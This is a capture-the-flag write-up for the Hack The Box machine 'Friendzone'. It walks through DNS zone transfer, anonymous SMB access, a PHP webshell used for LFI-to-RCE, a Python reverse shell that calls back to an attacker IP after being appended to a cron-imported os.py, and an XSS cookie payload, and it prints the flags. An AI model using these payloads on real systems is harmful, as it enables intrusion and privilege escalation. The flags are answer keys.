


# 🐧 Friendzone — HTB


> **TL;DR** — A TLS cert and a DNS zone transfer leak the subdomains of `friendzone.red` → an anonymous, writable Samba share + admin creds from `general` → log in to `administrator1.friendzone.red` over HTTPS → **LFI/RCE** via the `pagename` parameter in `dashboard.php` (it appends `.php`) by pointing it at a webshell dropped in the writable share → `friend`'s MySQL password reused for SSH → root via a **Python library hijack**: a world-writable `os.py` imported by a root cron script.

**Tags:** `TLS cert` · `DNS zone transfer` · `SMB` · `LFI → RCE` · `credential reuse` · `Python library hijack` · `cron`

---

## 1. What is the common name for the box given on the TLS certificate on one of the open ports?

Scan port 443 with the default scripts to read the certificate:

```bash
nmap -p443 -sC -sV 10.129.100.242
```

```
443/tcp open  ssl/http Apache httpd 2.4.29
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
```

> **Answer:** `friendzone.red`

## 2. What is the name of the Samba share that allows for anonymous read and write access?

First, a full port scan to see what's exposed:

```
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2
80/tcp  open  http        Apache httpd 2.4.29
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

Enumerate share permissions as an anonymous user with `smbmap`:

```bash
smbmap -H 10.129.100.242 -u '' -p ''
```

```
Disk            Permissions     Comment
----            -----------     -------
print$          NO ACCESS       Printer Drivers
Files           NO ACCESS       FriendZone Samba Server Files /etc/Files
general         READ ONLY       FriendZone Samba Server Files
Development      READ, WRITE     FriendZone Samba Server Files
IPC$            NO ACCESS       IPC Service (FriendZone server (Samba, Ubuntu))
```

Only `Development` allows writing.

> **Answer:** `Development`

## 3. What is the admin password available from creds.txt in one of the SMB shares?

`Development` is empty, but `general` (read-only) holds a credentials file:

```bash
smbclient \\\\10.129.100.242\\general
smb: \> get creds.txt
```

```
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

> **Answer:** `WORKWORKHhallelujah@#`

## 4. There are several subdomains of the friendzone.red domain available on this server. What is the name of the subdomain that returns a login form with the title "Login Form for FriendZone"?

Add `friendzone.red` to `/etc/hosts`, then brute-force subdomains against the box's own DNS resolver:

```bash
gobuster dns -do friendzone.red \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  --resolver 10.129.100.242:53
```

```
hr.friendzone.red
uploads.friendzone.red
```

These just return the main page. A **DNS zone transfer** reveals one more record:

```bash
dig axfr @10.129.100.242 friendzone.red
```

```
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.             604800 IN A      127.0.0.1
uploads.friendzone.red.        604800 IN A      127.0.0.1
```

Over plain HTTP everything still shows the main page, but since **443** is open, browsing `administrator1.friendzone.red` over **HTTPS** finally returns the login panel.

> **Answer:** `administrator1.friendzone.red`

## 5. The dashboard.php page seems to be including another page that provides a timestamp. That page can also be visited directly. What is the relative path on the webserver to that page?

Log in with the creds from step 3 and follow the message to `/dashboard.php`:



Visiting it with the hinted parameters renders a page with a timestamp at the bottom:



The timestamp is clearly pulled in from a separate included PHP file.

> **Answer:** `timestamp.php`

## 6. What's the full path on FriendZone to the directory that is shared by Samba as the Development share?

Playing with the `pagename` parameter: deleting it changes the page, so it's an include. Classic LFI payloads (`/etc/passwd` and bypasses) return nothing — because the backend **appends `.php`** to whatever you pass. Proof: `pagename=login` returns `"Wrong!"` (it loaded `login.php`), so reading `/etc/samba/smb.conf` directly isn't possible.

Back to the `smbmap` output: the `Files` share was commented *"...Files /etc/Files"*. By the same convention, `Development` lives under `/etc/` too.

> **Answer:** `/etc/Development`

## 7. What user is the webserver running as?

Because `Development` is writable over SMB **and** readable by the webserver at `/etc/Development`, drop a webshell there:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
smbclient \\\\10.129.100.242\\Development -c 'put shell.php'
```

The `pagename` include appends `.php`, so point it at the shell and pass a command:

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell&cmd=id
```

> **Answer:** `www-data`

## 8. Submit the flag located in the friend user's home directory.

Read it through the same webshell:

```
...&pagename=/etc/Development/shell&cmd=cat+/home/friend/user.txt
```

> `5f526b30b06ec592ee20a0124c429f22`

## 9. What is the friend user's password?

Upload a [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) (edit IP/port), start a listener, and trigger it the same way. Then upgrade to a fully interactive shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
# Enter, Enter
export TERM=xterm
```

In `/var/www` sits a config file with the DB credentials:

```bash
cat /var/www/mysql_data.conf
```

```
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
```

The password is reused for SSH as `friend`.

> **Answer:** `Agpyu12!0.213$`

## 10. What is the full path to the script that root is running every few minutes on a cron?

Watch the process list until the cron fires:

```bash
watch -n 1 'ps aux | grep -v grep'
```

> **Answer:** `/opt/server_admin/reporter.py`

## 11. What is the full path to the file related to reporter.py that is also world-writable?

```bash
find / -writable -name "*.py" 2>/dev/null
```

This turns up `/usr/lib/python2.7/os.py` — the very library `reporter.py` imports.

> **Answer:** `/usr/lib/python2.7/os.py`

## 12. Submit the flag located in root's home directory.

`reporter.py` imports `os`, and `os.py` is world-writable — so we hijack the library. The script:

```python
#!/usr/bin/python
import os

to_address   = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"
print "[+] Trying to send email to %s"%to_address
# Sam ~ python developer
```

Back up the original first, then append a payload to `os.py`:

```bash
cp /usr/lib/python2.7/os.py /tmp/os.py.bak
```

A reverse-shell payload appended to the end runs as root when the cron executes `reporter.py`:

```bash
cat >> /usr/lib/python2.7/os.py << 'EOF'

import socket,subprocess
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.229",4445))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
EOF
```

> **Note:** A simpler "read `/root/root.txt` → write to `/tmp`" payload didn't produce output here, so the reverse shell was the reliable path.

Catch the shell on the listener and read the flag.

> `f8ab4cb336dd6b139f7a50fa818044cc`

---

## 🎁 Bonus — Reflected XSS

The `image_id` parameter reflects unsanitized input:

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpgkkpiy'><script>alert(document.cookie)</script>r6fwk&pagename=timestamp
```

---

## 🚩 Flags

| | |
|---|---|
| **User** | `5f526b30b06ec592ee20a0124c429f22` |
| **Root** | `f8ab4cb336dd6b139f7a50fa818044cc` |
